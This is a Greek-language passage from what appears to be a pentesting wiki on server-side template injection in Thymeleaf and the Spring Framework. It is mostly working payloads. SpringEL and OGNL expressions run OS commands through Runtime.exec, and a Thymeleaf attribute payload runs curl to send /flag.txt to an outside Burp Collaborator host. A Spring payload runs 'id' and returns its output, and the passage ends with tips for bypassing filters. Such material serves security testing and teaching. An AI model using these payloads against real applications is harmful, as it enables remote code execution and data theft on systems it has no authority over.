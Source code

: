 *   SpringEL:

```java
${T(java.lang.Runtime).getRuntime().exec('calc')}
```
*   OGNL:

```java
${#rt = @java.lang.Runtime@getRuntime(),#rt.exec("calc")}
```

Το Thymeleaf απαιτεί αυτές τις εκφράσεις να τοποθετούνται εντός συγκεκριμένων χαρακτηριστικών. Ωστόσο, υποστηρίζεται _inline έκφραση_ για άλλες τοποθεσίες προτύπων, χρησιμοποιώντας σύνταξη όπως `[[...]]` ή `[(...)]`. Έτσι, μια απλή δοκιμή SSTI μπορεί να μοιάζει με `[[${7*7}]]`.

Ωστόσο, η πιθανότητα να λειτουργήσει αυτό το payload είναι γενικά χαμηλή. Η προεπιλεγμένη ρύθμιση του Thymeleaf δεν υποστηρίζει δυναμική δημιουργία προτύπων; τα πρότυπα πρέπει να είναι προκαθορισμένα. Οι προγραμματιστές θα χρειαστεί να υλοποιήσουν τον δικό τους `TemplateResolver` για να δημιουργήσουν πρότυπα από συμβολοσειρές σε πραγματικό χρόνο, κάτι που είναι ασυνήθιστο.

Το Thymeleaf προσφέρει επίσης _προεπεξεργασία εκφράσεων_, όπου οι εκφράσεις εντός διπλών υπογραμμίσεων (`__...__`) προεπεξεργάζονται. Αυτή η δυνατότητα μπορεί να χρησιμοποιηθεί στην κατασκευή εκφράσεων, όπως αποδεικνύεται στην τεκμηρίωση του Thymeleaf:
```java
#{selection.__${sel.code}__}
```
**Παράδειγμα Ευπάθειας στο Thymeleaf**

Σκεφτείτε το παρακάτω απόσπασμα κώδικα, το οποίο θα μπορούσε να είναι επιρρεπές σε εκμετάλλευση:
```xml
<a th:href="@{__${path}__}" th:title="${title}">
<a th:href="${''.getClass().forName('java.lang.Runtime').getRuntime().exec('curl -d @/flag.txt burpcollab.com')}" th:title='pepito'>
```
Αυτό υποδηλώνει ότι αν η μηχανή προτύπων επεξεργαστεί αυτές τις εισόδους λανθασμένα, μπορεί να οδηγήσει σε απομακρυσμένη εκτέλεση κώδικα που αποκτά πρόσβαση σε διευθύνσεις URL όπως:
```
http://localhost:8082/(7*7)
http://localhost:8082/(${T(java.lang.Runtime).getRuntime().exec('calc')})
```
**Περισσότερες πληροφορίες**

* [https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/)

{% content-ref url="el-expression-language.md" %}
[el-expression-language.md](el-expression-language.md)
{% endcontent-ref %}

### Spring Framework (Java)
```java
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}
```
**Παράκαμψη φίλτρων**

Μπορούν να χρησιμοποιηθούν πολλαπλές εκφράσεις μεταβλητών, αν το `${...}` δεν λειτουργεί δοκιμάστε το `#{...}`, `*{...}`, `@{...}` ή `~{...}`.
